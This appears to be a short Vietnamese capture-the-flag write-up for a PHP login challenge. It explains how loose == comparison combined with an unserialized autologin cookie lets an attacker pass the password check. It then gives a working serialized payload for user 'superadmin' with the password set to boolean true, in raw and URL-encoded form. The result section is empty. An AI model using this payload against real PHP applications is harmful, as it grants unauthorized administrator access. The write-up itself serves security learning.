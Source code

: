 - Đọc source code ta thấy có 2 cách để login: đăng nhập theo username và password hoặc đăng nhập bằng cookie autologin.

![1](img/47/Screenshot%20from%202023-01-31%2015-06-44.png)

- Như vậy `login = superadmin và ta cần tạo ra session[login]. Để làm được điều này thì ta phải bypass hàm này:

```
if ($data['password'] == $auth[ $data['login'] ] ) {
  $_SESSION['login'] = $data['login'];

        // set cookie for autologin if requested
        if($_POST['autologin'] === "1"){
          setcookie('autologin', serialize($data));
        }
    }
```

- Hàm này là một hàm so sánh lỏng lẻo nếu truyền `data[password] = true` thì sẽ gán cứng `$auth[ $data['login'] ]` là true.

- Do đó, nếu ta truyền boolean True làm password thì hàm check sẽ luôn success và authenticate cho ta. Serialize payload sau:

```
autologin=a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

- Ta được:

```
a%3A2%3A%7Bs%3A5%3A%22login%22%3Bs%3A10%3A%22superadmin%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3B%7D
```

- Kết quả:
